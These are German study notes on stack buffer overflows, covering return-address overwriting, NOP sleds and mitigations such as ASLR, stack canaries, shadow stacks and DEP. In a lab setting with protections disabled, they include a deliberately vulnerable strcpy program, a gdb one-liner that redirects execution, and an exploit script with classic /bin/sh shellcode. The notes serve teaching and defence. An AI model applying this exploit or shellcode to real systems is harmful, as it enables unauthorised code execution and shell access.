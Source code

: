 Ein Buffer Overflow (oder Pufferüberlauf) ist, wenn eine Variable ihren eigentlich angedachten Speicherbereich überschreitet. Die kann zum Beispiel passieren, wenn ein Speicherbereich für einen String der Länge 10 reserviert wurde, jedoch ein String der Länge 20, ohne Überprüfung in den Speicherbereich geladen wird.  

Puffer = Speicherbereich
Pufferüberlauf: Die Menge der in den Puffer zu schreibenden Daten ist größer als der Speicherbereich -> Überlauf

## Normale Abarbeitung eines Programms
1. Schrittweise Abarbeitung der Maschinenbefehle, nächster Befehl bei nächsthöherer Speicheradresse
2. Hauptprogramm: Sprunganweisung in ein Unterprogramm (inkl. Parameterübergabe)
	- Herkunftsadresse (Ort von wo das Unterprogramm im Hauptprogramm gestartet wird) muss sich gemerkt werden um an dieser Stelle später das Hauptprogramm fortzuführen
3. Um nach Unterprogramm das Hauptprogramm fortsetzen zu können, wird die Rücksprungadresse auf dem Stack abgelegt.
4. Variablen des Unterprogramms benötigen ebenfalls Platz auf dem Stack -> Trennung zwischen Adresse und Variablen -> `Stack Basepointer` 
5. Sprung in das Unterprogramm
6. Abarbeitung der Maschinenbefehle des Unterprogramms
7. Ende des Unterprogramms 
	1. Rücksprungadresse vom Stack holen
	2. Speicher auf dem Stack wieder freigeben
	3. Rücksprung in das Hauptprogramm
8. Fortsetzung des Hauptprogramms

## Buffer Overflow herbeiführen
Im oben aufgeführten Programmablauf lässt sich ein Buffer Overflow missbrauchen, indem man bei der Ausführung des Unterprogramms einen Buffer Overflow nutzt um (z.B. durch Nutzereingabe eines Strings) den Speicher bis zum `Stack Basepointer` mit dem eigenen Code zu überschreiben. Die `Rücksprungadresse` wird dabei so überschrieben, dass sie auf die Speicheradresse des eingeschleusten Code zeigt. 
Sobald zu der in der `Rücksprungadresse` gespeicherten Adresse gesprungen wird, wird der eingeschleuste Code ausgeführt.
![[stack_aufbau.png]]

Herausforderung aus Angreifer-Sicht:
1. Er weiß nicht an welcher Stelle im Speicher sich die absolute Rücksprungadresse befindet.
   -> Rücksprungadresse mehrfach oberhalb Exploit-Code
2. Er kennt die absoluten Speicheradressen des Programms nicht.
   -> "Landezone" unterhalb des Exploit Code (NOP: no operation)
3. Zeichenkette darf keine `Null`-Bytes enthalten.
   -> Verwendung einer geeigneten Codierung

### Code Beispiele
Damit folgende Beispiele funktionieren wurden einige Sicherheitsmaßnahmen im Betriebssystem deaktiviert.
Siehe auch [[gdb (GNU Debugger)]]. Dieses CLI-Tool wurde verwendet um während des Programmablaufs den Speicher betrachten zu können.

#### Konsolenausgabe
`target0`:
``` C
void versteckt() {
	// Ausgabe eines Strings auf der Standardausgabe
	fprintf(stdout, "You have been pwnd!\n");
}
int funk2(char *arg, char *out) {
	// Kopiert von arg nach out bis arg Nullterminiert (0x00)
	strcpy(out, arg);
	return 0;
}
int funk1(char *argv[]) {
	// allociert 128 Bytes an Speicher
	char buffer[128];
	// ruft funk2 mit dem ersten CMD-Argument auf
	funk2(argv[1], buffer);
}
int main() {
	// Überprüfe, dass genau ein Kommanozeilenparameter übergeben
	// wurde, andernfalls gib eine Fehlermeldung aus
	if (argc != 2) {
		fprintf(stderr, "target0: argc != 2\n");
		exit(EXIT_FAILURE);
	}
	// Rufe funk1 auf
	funk1(argv);
	return 0;
}
```
Die Funktion `versteckt` wird innerhalb von dem Skript `target0` nie aufgerufen. Dennoch lässt sich das Programm über ein Kommandozeilenparameter so manipulieren, dass die Funktion `versteckt` aufgerufen wird. 
Für die Variable `buffer` wurden 128 Bytes an Speicher allokiert. Im Anschluss an den für die Variable `buffer` reservierten Speicher liegt der `Stack Basepointer` (4 Bytes )und im Anschluss daran die `Rücksprungadresse` (ebenfalls 4 Bytes). Da in `funk2` mit dem Methodenaufruf `strcpy` keine Kontrolle stattfindet, ob das Ziel des Kopiervorgangs auch groß genug ist für das übergebene char-Array, lässt sich ein `buffer overflow` herbeiführen und die `Rücksprungadresse` manipulieren.
In diesem Fall wird ein char-Array mit einer Länge von 136 Bytes benötigt um den `Stack Basepointer` und die `Rücksprungadresse` zu überschreiben. Wenn also die letzten 4 Byte des char-Arrays der physischen Adresse der `versteckt`-Funktion entsprechen, wird Diese ausgeführt.

Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run target0 ``python -c "print('A'*132 + '\xbb' + '\x84' + '\x04' + '\x08')"`
```
Vorausgesetzt die physischen Adresse der `versteckt`-Funktion lautet `0x80484bb`
Es entsteht zwar ein `Segmentation Fault` am Ende, doch vorher wurde die `versteckt`-Funktion ausgeführt.

#### Öffnen einer Shell
Statt einfach nur 132 A's in die `buffer`-Variable zu schreiben lässt sich auf diese Weise auch weiterer Maschinencode in ein Programm einschleusen. Zur Generierung des Maschinencodes für die Öffnung einer Shell, lässt sich folgendes Python-Skript nutzen:
`exploit.py`
``` python
# Maschinencode zur Öffnung einer Shell von Aleph One
sc = "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"
# Speicheradresse von buffer, little endian beachten
buffer_addr = '\x8c\xf5\xff\xbf'
length_buffer = 128
size_ebp = 4 # Länge des Stack Basepointer (Bytes)
size_eip = 4 # Länge der Rücksprungadresse (Bytes)
total_length_input = length_buffer + size_ebp + size_eip
# Ausgabe erzeugen, inkl. NOP Sliding
print((total_length_input - len(sc) - len(buffer_addr)) * '\x90' + sc + buffer_addr) 
```
Die Variable `buffer_addr` muss entsprechend auf die Adresse angepasst werden, wo die Variable im physischen Speicher abgelegt ist. Diese muss jedoch nicht ganz exakt sein, da folgend auf die Adresse die `NOP`-Operation (`\x90`) als eine Art "Landezone" steht. Dadurch funktionieren höhere Adressen (bis zu einem gewissen Grad) auch noch.
Wenn man das ganze also innerhalb von [[gdb (GNU Debugger)]] durchführen möchte kann man folgenden Befehl verwenden:
``` bash
run `python exploit.py`
```
Die dabei geöffnete Shell besitzt die gleichen Rechte, wie das ausgeführte Programm. Der nächste Schritt wäre nun z.B. eine `privilege escalation` zu erreichen um an `root`-Rechte zu kommen.

## Schutzmaßnahmen gegen Pufferüberläufe: 
<b>Never trust user input</b>
- sorgfältige Programmierung und Nutzung entsprechender Compiler-Funktionen
- Überprüfung des Programmcodes mit speziellen Werkzeugen
- ASLR ( `Address Space Layout Randomization` )
	- Alle Programmteile und alle eingebundenen Bibliotheken müssen ASLR aktiviert haben, sonst ist der Schutz nicht gegeben.
	- virtuelle Adressen werden durchgemixt
- `Stack Canaries` bzw. `Stack Cookies`
	- Im Stack wird zwischen Rücksprungvariable und den eigentlichen Variablen ein zufälliger Wert gespeichert.
	- Bevor die Rücksprungadresse aufgerufen wird wird überprüft, ob sich dieser zufällige Wert geändert hat.
- `Shadow Stack`
	- Man hat einen vom Haupt-Stack getrennten, zusätzlichen Stack, der nur Rücksprungadressen speichert.  Vor dem Rücksprung vergleicht die CPU ob die normale Rücksprungadresse der `Shadow-Stack`-Adresse entspricht
	- Intel CET ( `Control-Flow Enforcement Technology` ) setzt seit Windows 10 diese Taktik um.
- ESP ( `Excecutable Space Protection` ) 
	- Unter Windows heißt es `Data Excecution Prevention`
	- Es kann nur noch Code ausgeführt werden, welcher innerhalb des für Programmcode reservierten Speicherbereichs liegt.


